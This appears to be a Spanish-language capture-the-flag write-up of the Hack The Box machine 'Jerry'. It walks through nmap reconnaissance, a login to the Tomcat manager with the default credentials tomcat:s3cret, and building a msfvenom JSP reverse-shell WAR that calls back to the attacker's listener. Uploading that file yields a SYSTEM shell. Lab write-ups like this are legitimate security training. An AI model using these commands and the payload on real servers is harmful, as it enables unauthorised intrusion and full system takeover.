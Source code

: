 ```yaml
---
layout: single
title: Hack The Box Jerry
excerpt: "Resolución de la máquina Jerry en la plataforma de Hack The Box"                         
date: 2022-03-15
classes: wide
header:
  teaser: /assets/images/htb-jerry/jerry.jpg
  teaser_home_page: true                     
categories:                                     
  - Easy
  - Windows
tags:
  - Arbitrary_File_Upload
  - File_Misconfiguration
---
```

![](/assets/images/htb-jerry/banner-jerry.jpg)

## Jerry
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.10.95.

```bash
❯ ping -c 1 10.10.10.95
PING 10.10.10.95 (10.10.10.95) 56(84) bytes of data.
64 bytes from 10.10.10.95: icmp_seq=1 ttl=127 time=138 ms

--- 10.10.10.95 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 137.931/137.931/137.931/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Windows. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-13 21:14 CST
Initiating SYN Stealth Scan at 21:14
Scanning 10.10.10.95 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.95
Completed SYN Stealth Scan at 21:15, 26.50s elapsed (65535 total ports)
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.14s latency).
Scanned at 2022-03-13 21:14:52 CST for 27s
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.58 seconds
           Raw packets sent: 131088 (5.768MB) | Rcvd: 19 (836B)
```

Mediante la función [extractPorts](/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts
───────┬─────────────────────────────────────
       │ File: extractPorts.tmp
       │ Size: 115 B
───────┼─────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.95
   5   │     [*] Open ports: 8080
   6   │ 
   7   │ [*] Ports copied to clipboard
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sCV -p8080 10.10.10.95 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-13 21:16 CST
Nmap scan report for 10.10.10.95
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.72 seconds
```

Vemos que se encuentra abierto el puerto 8080 y como siempre, antes de visualizar el contenido vía web, vamos a utilizar la herramienta `whatweb` para ver a lo que nos enfrentamos.

```bash
❯ whatweb http://10.10.10.95:8080
http://10.10.10.95:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache-Coyote/1.1], IP[10.10.10.95], Title[Apache Tomcat/7.0.88]
```

Vemos que nos enfrentamos antes un Apache Tomcat, lo cual lo validamos vía web.

![](/assets/images/htb-jerry/jerry-web.png)

Vamos a ver si se puede acceder al recurso `/manager/html` y hacer uso de las credenciales por defect **tomcat : s3cret**:

![](/assets/images/htb-jerry/jerry-web1.png)

![](/assets/images/htb-jerry/jerry-web2.png)

Ya nos encontramos dentro del Gestor de Aplicaciones Web de Tomcat, por lo tanto, ya debemos estar pensando en generar un archivo de extensión **war** para subirlo y obtener acceso al sistema.

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=443 -f war > shell.war
Payload size: 1103 bytes
Final size of war file: 1103 bytes

❯ ll
.rw-r--r-- root root 1.1 KB Tue Mar 15 01:41:14 2022  shell.war
❯ cp shell.war /home/k4miyo/Descargas/Firefox/.
```

Subimos nuestro archivo al servidor:

![](/assets/images/htb-jerry/jerry-web3.png)

Nos ponemos en escucha por el puerto 443 y ahora seleccionamos nuestro archivo.

![](/assets/images/htb-jerry/jerry-web4.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

Ya hemos ingresado a la máquina como `nt authority\system` y podemos visualizar las flags (user.txt y root.txt).
